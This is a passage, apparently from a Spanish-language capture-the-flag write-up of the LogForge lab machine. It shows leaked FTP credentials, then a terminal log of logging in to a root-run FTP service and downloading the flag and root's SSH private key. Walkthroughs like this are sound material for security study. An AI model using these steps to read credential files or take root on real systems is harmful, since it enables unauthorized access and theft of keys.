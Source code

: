 Archivo de Credenciales FTP
```bash
user --> ftp_user: ippsec
pass --> ftp_password: log4j_env_leakage 
```
Ahora podriamos conectarnos al servicio FTP interno con las credenciales obtenidas y como vemos estariamos como root y podriamos visualizar la flag y todos los archivos a nivel Admministrador por FTP.

```bash
tomcat@LogForge:/tmp$ ftp localhost
Connected to localhost.
220 Welcome to the FTP-Server
Name (localhost:tomcat): ippsec
331 User name okay, need password
Password:
230-Welcome to HKUST
230 User logged in successfully
Remote system type is FTP.
ftp> dir
200 Command OK
125 Opening ASCII mode data connection for file list.
.profile
.ssh
snap
ftpServer-1.0-SNAPSHOT-all.jar
.bashrc
.selected_editor
run.sh
.lesshst
.bash_history
root.txt
.viminfo
.cache
226 Transfer complete.

ftp> get root.txt
local: root.txt remote: root.txt
200 Command OK
150 Opening ASCII mode data connection for requested file root.txt
WARNING! 1 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 File transfer successful. Closing data connection.
33 bytes received in 0.00 secs (78.9867 kB/s)

ftp> cd .ssh
250 The current directory has been changed to /root/.ssh
ftp> get id_rsa
local: id_rsa remote: id_rsa
200 Command OK
150 Opening ASCII mode data connection for requested file id_rsa
WARNING! 28 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 File transfer successful. Closing data connection.
1680 bytes received in 0.00 secs (404.9926 kB/s)
```
Procedemos a visualizar los recursos descargador en el directorio /tmp/
```bash
tomcat@LogForge:/tmp$ ls
hsperfdata_tomcat  id_rsa  root.txt

tomcat@LogForge:/tmp$ cat root.txt 
bc4fe3cd9e92b620cbd13exxxxxxxxxxxxxx

tomcat@LogForge:/tmp$ cat id_rsa 
```